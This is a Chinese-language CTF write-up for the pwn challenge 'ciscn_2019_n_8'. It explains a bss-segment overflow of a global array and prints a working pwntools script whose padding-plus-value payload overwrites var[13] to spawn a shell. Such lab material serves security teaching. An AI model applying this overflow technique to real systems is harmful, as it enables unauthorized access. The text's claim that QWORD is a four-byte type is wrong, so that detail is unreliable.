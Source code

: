 ## 0x001 程序分析

分析main函数

![](1.png)

该函数中使用scanf接收输入，将结果保存在 **var** 中。判断 **var[13]** 有值并且等于 **17**，就可以直接获取系统权限。

## 0x002 漏洞分析

该程序接受输入的 **var** 是全局变量，位于bss段中，可能存在bss段溢出。

## 0x003 漏洞利用

因为程序中直接通过输入使 **var[13] == 17** 即可获取系统权限，因此就没必要考虑的太过复杂。

由于比较使用的是 QWORD 四字节类型，因此 **var[13]** 实际相当于长度 13 * 4 = 52。

python3 exp如下：
```
from pwn import *

p = process("./ciscn_2019_n_8")

payload = b"A" * 52 + p32(17)

p.sendline(payload)
p.interactive()
```